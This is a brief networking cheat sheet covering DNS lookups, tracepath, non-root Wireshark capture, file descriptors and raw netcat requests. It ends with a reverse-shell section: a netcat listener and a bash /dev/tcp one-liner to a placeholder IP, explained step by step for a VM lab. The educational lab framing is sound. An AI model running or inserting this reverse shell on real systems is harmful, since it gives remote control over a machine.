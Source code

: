 # Find places

destination directly

    dig +short <domain name>
    nslookup <domain name>

the routes taken

    tracepath <desitination>

# Wireshark

Capture as non-root:

    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

# File Descriptors

Pointers to the sources of data that the programs are using.

0   stdin   Standard Input
1   stdout  Standard Output
2   stderr  Standard Error

# Send a basic GET request to the application on server port

        cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

# Reverse shell: /bin/bash -> /dev/tcp

Roger home: [l]isten to a [p]ort with [v]erbose output from [nc] netcat

        nc -v -l -p 666
            
Alien ship : execute it in a terminal of a virtual machine on host only adapter

        /bin/bash -i >& /dev/tcp/[roger-ip]/[roger-port] 0>&1 &

1. Execute bash in [i]nteractive session : /bin/bash -i
2. Send bash output : >&
3. Interact directly with the TCP protocol : /dev/tcp/ip/port/
4. Send bash stdin -> stdout : 0>&1  * Resend to Roger what he is typing
5. All in background : &
